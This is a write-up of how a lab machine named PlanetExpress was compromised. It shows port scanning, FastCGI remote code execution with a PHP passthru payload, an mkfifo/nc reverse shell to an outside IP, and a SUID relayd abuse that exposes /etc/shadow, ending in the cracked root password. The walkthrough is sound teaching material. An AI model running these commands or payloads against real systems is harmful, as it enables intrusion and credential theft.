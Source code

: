 # PlanetExpress

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:27 +08
Nmap scan report for 192.168.183.205
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 35.83 seconds
```

Did a detailed scan to enumerate port 80 and 9000 further:

```
$ sudo nmap -p 80,9000 -sC -sV -O --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:31 +08
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Pico CMS
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener?
```

Port 8000 was running Pico CMS, which does have some exploits.&#x20;

### Web Enum --> PHPInfo

Port 80 had a countdown:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

There isn't much on this page, so we can do a `gobuster` directory scan with the PHP extension since PicoCMS was being used:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.205/ -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.205/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/09 22:35:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5176]
/content              (Status: 301) [Size: 320] [--> http://192.168.183.205/content/]
/themes               (Status: 301) [Size: 319] [--> http://192.168.183.205/themes/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.205/assets/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.183.205/plugins/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.183.205/vendor/]
/config               (Status: 301) [Size: 319] [--> http://192.168.183.205/config/]
```

Using the PicoCMS Github repository, we can view more about these directories.&#x20;

{% embed url="https://github.com/picocms/Pico/tree/master" %}

Viewing the `config.yml` file shows that this is indeed running PicoCMS:

```
$ curl http://192.168.183.205/config/config.yml
##
# Basic
#
site_title: PlanetExpress
base_url: ~

rewrite_url: ~
debug: true
timezone: ~
locale: ~

##
# Theme
<TRUNCATED>
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
```

There's also a custom plugin developed for this website, and we can visit that at `plugins/PicoTest.php` based on the Github repo. This would show us the PHPInfo of the site:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Here, we can find that `/var/www/html/planetexpress` is the document root. Also, we can find a lot of disabled functions:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### FastCGI --> RCE

There wasn't much else on the webpage for us to test, however there was still port 9000. Googling it revealed that it was running FastCGI:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

There are RCE exploits for this service [here](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75). The script given allows us to inject PHP code into the service to be run. However, there are a lot of functions that are disabled based on `PicoTest.php`. I checked the functions against all functions that are able to execute system commands via PHP, and `passthru` was not disabled.

Using `passthru` and the document root directory allows us to get RCE:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell via the `mkfifo` one-liner.&#x20;

{% code overflow="wrap" %}
```
$ python2 exploit.py -c '<?php passthru("bash -c \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.218 80 > /tmp/f\""); ?>' 192.168.183.205 /var/www/html/planetexpress/plugins/PicoTest.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Relayd SUID --> Shadw Hash

I searched for SUID binaries and found one that stood out:

```
$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/sbin/relayd
<TRUNCATED>
```

We can check the help menu for this :

```
www-data@planetexpress:/home/astro$ /usr/sbin/relayd --help
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port
```

The option that stood out the most to me was the `-C` flag, because it allows us to read from files. I attempted to read the `/etc/shadow` file:

```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
[ERR] 2023-07-09 10:53:48 config.cpp:1539 write
[ERR] 2023-07-09 10:53:48 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-07-09 10:53:48 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-07-09 10:53:48 invalid config file

www-data@planetexpress:/tmp$ ls -la /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
```

This made the file readable by all. We can then grab the `root` hash:

{% code overflow="wrap" %}
```
www-data@planetexpress:/tmp$ cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```
{% endcode %}

We just need to put this hash and the entry for `root` in `/etc/passwd` into another file, then run `unshadow` to convert it to a crackable hash.

{% code overflow="wrap" %}
```
$ cat hash  
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
$ cat passwd       
root:x:0:0:root:/root:/bin/bash
$ unshadow passwd hash
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:0:0:root:/root:/bin/bash
```
{% endcode %}

Then, we can crack it in `john` (or in my case, just show because I cracked it before):

```
$ john --show root_hash                                     
root:neverwant2saygoodbye:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
```

We can then `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
